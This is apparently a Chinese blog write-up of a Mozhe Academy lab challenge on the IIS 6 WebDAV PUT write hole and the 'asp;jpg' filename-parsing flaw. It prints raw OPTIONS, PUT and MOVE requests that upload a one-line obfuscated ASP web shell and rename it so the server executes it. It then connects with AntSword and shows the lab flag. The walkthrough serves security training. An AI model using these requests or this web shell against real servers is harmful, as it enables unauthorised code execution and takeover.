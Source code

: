```yaml
---
title: 题目2-IIS写权限漏洞分析溯源
description: iis put写权限漏洞、iis6文件名解析漏洞
tags:
  - 题目
  - 墨者学院
  - iis
categories:
  - - 安全
    - 安全题目
abbrlink: 3128432425
date: 2020-10-19 15:48:29
---
```

墨者学院一道题目-IIS写权限漏洞分析溯源  
[题目链接](https://www.mozhe.cn/bug/detail/VnRjUTVETHFXWk5URWNjV2VpVWhRQT09bW96aGUmozhe?tdsourcetag=s_pcqq_aiomsg)    

知识点：  
1.[iis put写权限漏洞](https://www.cnblogs.com/tdcqma/p/6125789.html)   
2.[iis6文件名解析漏洞](https://www.cnblogs.com/hack747/p/12271048.html)   

工具：
burpsuite    
[Antsword](https://github.com/AntSwordProject/antSword)[AntSword-Loader](https://github.com/AntSwordProject/AntSword-Loader)    

---

IP地址 : 219.153.49.228 端口 : 48336 协议 : http 其他 : [点击访问]  

1.直接访问靶场，并使用burpsuite抓包  
http://219.153.49.228:48336  
显示页面：  
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/36/02.png)
原始包：  
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/36/01.png)

2.利用iis写权限漏洞 使用PUT上传文件txt  
用OPTIONS，观察返回，Allow存在PUT
请求包：  

```
OPTIONS / HTTP/1.1
Host: 219.153.49.228:48336
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cacheOPTIONS


```

响应包：  
```
HTTP/1.1 200 OK
Connection: close
Date: Mon, 19 Oct 2020 07:41:00 GMT
Server: Microsoft-IIS/6.0
MS-Author-Via: DAV
Content-Length: 0
Accept-Ranges: none
DASL: <DAV:sql>
DAV: 1, 2
Public: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
Allow: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
Cache-Control: private


```

利用iisput写权限漏洞

```
PUT /a.txt HTTP/1.1
Host: 219.153.49.228:48336
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 24

<%exECuTe ReqUEst(0)%>

```

```
HTTP/1.1 201 Created
Connection: close
Date: Mon, 19 Oct 2020 07:35:54 GMT
Server: Microsoft-IIS/6.0
Location: http://219.153.49.228/a.txt
Content-Length: 0
Allow: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, LOCK, UNLOCK


```
成功写入  

3.MOVE修改文件名（利用iis解析漏洞）

Destination:/222.asp;jpg  

```
MOVE /a.txt HTTP/1.1
Host: 219.153.49.228:48336
Destination:/222.asp;jpg
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 2



```

```
HTTP/1.1 207 Multi-Status
Connection: close
Date: Mon, 19 Oct 2020 07:37:17 GMT
Server: Microsoft-IIS/6.0
Location: http://219.153.49.228/222.asp;jpg
Content-Type: text/xml
Content-Length: 182

<?xml version="1.0"?><a:multistatus xmlns:a="DAV:"><a:response><a:href>http://219.153.49.228/a.txt</a:href><a:status>HTTP/1.1 401 Unauthorized</a:status></a:response></a:multistatus>
```

4.使用Antsword链接
http://219.153.49.228:48336/222.asp;jpg  
0  
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/36/03.png)
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/36/04.png)
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/36/05.png)

```
/* 
mozhe4a24a1cb68810f620c473728805
*/ 
```

